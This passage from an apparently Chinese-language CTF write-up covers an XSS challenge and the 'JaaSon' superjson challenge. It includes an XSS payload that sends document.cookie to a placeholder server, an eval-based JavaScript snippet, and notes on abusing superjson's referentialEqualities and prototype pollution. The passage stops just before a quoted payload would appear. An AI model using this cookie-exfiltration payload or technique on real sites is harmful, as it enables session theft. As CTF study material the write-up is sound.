 ```html
        <x-call>
            <x-identifier>test</x-identifier>
            <x-str>top.location='https://server/?c='+document.cookie</x-str>
        </x-call>
    </x-if>
</x-program>
```

程式碼會是：

``` js
const write = (s) => alert(s);
const read = (s) => prompt(s);
if(1){
const $test$=$win$<!--$asd$;
["eval"];
($test$)("alert(1337)");
};
```

## JaaSon(6 solves)

同場加映一題 misc 的 JS 題，這題你可以給一個 json string，會被丟到 [superjson](https://github.com/blitz-js/superjson) 去。

用的雖然是有 prototype pollution 漏洞的版本，但是已經先用 `Object.freeze(Object.prototype)` 把 prototype 鎖起來，沒有 prototype pollution 可以用了。

這題還沒時間研究，但跟 superjson 內部運作的機制有關，可以透過 `referentialEqualities` 這東西去指定一些值，例如說：

``` js
{
  "json": {
    "brands": [
      { "name": "Sonar" }
    ],
    "products": [
      { "name": "SonarQube",  "brand": null }
    ]
  },
  "meta": {
    "referentialEqualities": {
      "brands.0": ["products.0.brand"]
    }
  }
}
```

就會執行 `products[0].brand = brands[0];`，看來應該是想透過這個解決 deep clone 時的 reference 問題。


詳情可以參考：[Remote Code Execution via Prototype Pollution in Blitz.js](https://blog.sonarsource.com/blitzjs-prototype-pollution/)，裡面解釋得比較完整。

其餘細節我就沒有再研究了，但看起來是透過這個功能把物件的一些東西換掉，

底下附上 szymex73 在 DC 貼的 payload：
